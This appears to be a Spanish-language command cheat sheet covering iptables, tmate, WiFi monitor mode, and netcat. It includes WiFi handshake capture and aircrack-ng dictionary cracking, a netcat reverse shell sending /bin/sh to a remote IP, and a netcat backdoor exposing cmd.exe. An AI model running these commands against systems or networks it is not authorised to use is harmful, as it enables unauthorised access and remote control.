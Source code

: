````
```
iptables -A INPUT -s $IP -j DROP
 ```

Elegir en cual servidor mostrar el display. 

```
export DISPLAY=:0 # en servidor
export DISPLAY=:1 # en local
 ```

### Compartir la terminal en cualquier browser 

(```apt install tmate``` / ```yum install tmate```)

```tmate```
 
### Modo Monitor de Wifi, Sniffing y Crackeo con aircrack-ng (```apt install aircrack-ng```)
 
 ```
ifconfig wlan1 down
iwconfig wlan1 mode monitor
iwconfig
airdump-ng
airodump-ng -c 1 --bssid XX:XX:XX:XX:XX:XX:XX -w output wlan1
aircrack-ng -b 00:14:6C:7E:40:80 output.cap -w mydiccionary.txt 
```
Escaneo de Redes Wifi Disponibles

``` sudo iwlist wlan0 scan | egrep "Cell|ESSID|Signal|Rates"```

### Ncat:

Reverse Shell:

Desarrollador escucha en puerto 4444

``` nc -lvp 4444 ```

Cliente envía su Shell a la IP del desarrollador

```nc **IP** 4444 -e /bin/sh```

Backdoor

Ejecutar en el servidor remoto

```nc -L -p 3001 -d -e cmd.exe```

Servidor web inseguro

```while : ; do ( echo -ne "HTTP/1.1 200 OK\r\n" ; cat index.html; ) | nc -l -p 8080 ; done```

Chat
```
nc -l -vv -p 5000
nc 192.168.56.1 5000
```
Enviar archivo (inseguro)

```
Receptor escucha:
nc -l -p 9999 > test.txt

El otro lado envía:
nc 192.168.0.1 9999 < test.txt
````